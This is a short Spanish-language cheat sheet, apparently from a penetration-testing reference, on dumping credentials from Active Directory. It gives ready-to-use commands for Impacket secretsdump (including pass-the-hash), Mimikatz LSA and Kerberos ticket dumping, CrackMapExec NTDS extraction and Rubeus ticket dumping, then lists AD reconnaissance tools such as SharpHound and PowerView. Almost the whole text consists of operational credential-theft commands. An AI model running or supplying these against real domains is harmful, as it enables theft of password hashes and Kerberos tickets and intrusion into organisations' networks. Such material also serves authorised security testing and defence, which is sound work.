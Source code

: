 **Impacket (secretsdump)**

```bash
# Dump de hashes de NTLM
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py dominio/usuario:password@1.1.1.1

# Dump de hashes de NTLM usando Pass-the-Hash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py dominio/usuario@1.1.1.1 -hashes lmhash:nthash
```

**Mimikatz**

```powershell
# Dump de hashes con Mimikatz
privilege::debug
lsadump::lsa /patch
```

**CrackMapExec**

```bash
# Dump de hashes con CrackMapExec
crackmapexec smb 1.1.1.1 -u usuario -p password --ntds
```

### Dump de Tickets Kerberos

**Mimikatz**

```powershell
# Dump de tickets Kerberos
sekurlsa::tickets /export
```

**Rubeus**

```powershell
# Dump de tickets Kerberos
Rubeus.exe dump
```

### Herramientas Adicionales

- **ADRecon**: Una herramienta para recopilar información de AD en formato HTML o Excel.
- **PingCastle**: Herramienta de auditoría y evaluación de seguridad para AD.
- **SharpHound**: Recopilador de datos para BloodHound.
- **PowerView**: Parte de PowerSploit para la enumeración de AD.
- **PowerShell Empire**: Framework de post-explotación con módulos para AD.